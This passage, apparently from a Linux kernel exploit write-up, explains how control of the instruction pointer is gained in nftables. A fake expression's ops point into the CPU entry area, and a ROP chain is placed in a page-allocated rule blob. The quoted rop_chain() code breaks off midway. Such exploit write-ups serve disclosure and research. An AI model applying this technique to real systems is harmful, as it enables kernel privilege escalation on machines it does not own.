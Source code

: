 ```c
                nft_cmp16_fast_eval(expr, &regs);
            else if (expr->ops == &nft_bitwise_fast_ops)
                nft_bitwise_fast_eval(expr, &regs);
            else if (expr->ops != &nft_payload_fast_ops ||
                 !nft_payload_fast_eval(expr, &regs, pkt))
                expr_call_ops_eval(expr, &regs, pkt);

            if (regs.verdict.code != NFT_CONTINUE)
                break;
        }
```

```c
static void expr_call_ops_eval(const struct nft_expr *expr,
                   struct nft_regs *regs,
                   struct nft_pktinfo *pkt)
{
#ifdef CONFIG_RETPOLINE
    unsigned long e = (unsigned long)expr->ops->eval;
#define X(e, fun) \
    do { if ((e) == (unsigned long)(fun)) \
        return fun(expr, regs, pkt); } while (0)

    X(e, nft_payload_eval);
    X(e, nft_cmp_eval);
    X(e, nft_counter_eval);
    X(e, nft_meta_get_eval);
    X(e, nft_lookup_eval);
    X(e, nft_range_eval);
    X(e, nft_immediate_eval);
    X(e, nft_byteorder_eval);
    X(e, nft_dynset_eval);
    X(e, nft_rt_get_eval);
    X(e, nft_bitwise_eval);
#undef  X
#endif /* CONFIG_RETPOLINE */
    expr->ops->eval(expr, regs, pkt);
}
```

`chain->blob_gen_0` is used in `nft_do_chain`, and `expr->ops->eval` is called to evaluate the expression in `expr_call_ops_eval`. We set the ops of the fake expr to the CPU entry area to control the RIP. We allocate the fake blob object larger than 0x2000 to use page allocator.

# Post-RIP

The ROP payload is stored in `chain->blob_gen_0` which is allocated by page allocator.

When `eval()` is called, `RBX` points to `chain->blob_gen_0+0x10`, which is the beginning of the `nft_expr` structure.

```c
void rop_chain(uint64_t* data){
    int i = 0;

    // nft_rule_blob.size > 0
    data[i++] = 0x100;
    // nft_rule_blob.dlen > 0
    data[i++] = 0x100;

    // fake ops addr
    data[i++] = PAYLOAD_LOCATION(1) + offsetof(struct cpu_entry_area_payload, nft_expr_eval);

    // current = find_task_by_vpid(getpid())
    data[i++] = kbase + POP_RDI_RET;
```